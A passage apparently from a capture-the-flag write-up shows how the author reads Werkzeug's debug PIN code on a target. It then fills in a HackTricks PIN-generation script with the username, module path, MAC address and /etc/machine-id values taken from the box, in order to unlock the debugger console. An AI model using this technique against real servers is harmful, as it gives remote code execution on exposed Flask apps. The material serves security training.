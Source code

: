 The function that generates the `pin` is `get_pin_and_cookie_name`, which the article shows being from `python3.5/site-packages/werkzeug/debug/__init__.py`. The debug crash will help me orient on the file system:

![image-20220930063345466](https://0xdfimages.gitlab.io/img/image-20220930063345466.png)

Putting those together, I’ll read `/usr/local/lib/python3.10/site-packages/werkzeug/debug/__init__.py`:

```

...[snip]...
def get_pin_and_cookie_name(                                                                                                                              
    app: "WSGIApplication",                                                                                                                               
) -> t.Union[t.Tuple[str, str], t.Tuple[None, None]]:                        
    """Given an application object this returns a semi-stable 9 digit pin                                                                                 
    code and a random key.  The hope is that this is stable between          
    restarts to not make debugging particularly frustrating.  If the pin     
    was forcefully disabled this returns `None`.                             
                                                                             
    Second item in the resulting tuple is the cookie name for remembering.   
    """                                                                      
    pin = os.environ.get("WERKZEUG_DEBUG_PIN")                               
    rv = None                                                                
    num = None
...[snip]...

```

It’s important to get the version from the target, because there are some slight differences with what’s shown on HackTricks.

I’ll grab the script from HackTricks and save it on my machine as `generate_pin.py`. The top has the variables I need to set:

```

import hashlib
from itertools import chain
probably_public_bits = [
    'web3_user',# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.5/dist-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    '279275995014060',# str(uuid.getnode()),  /sys/class/net/ens33/address
    'd4e6cb65d59544f3331ea0425dc555a1'# get_machine_id(), /etc/machine-id
]

```
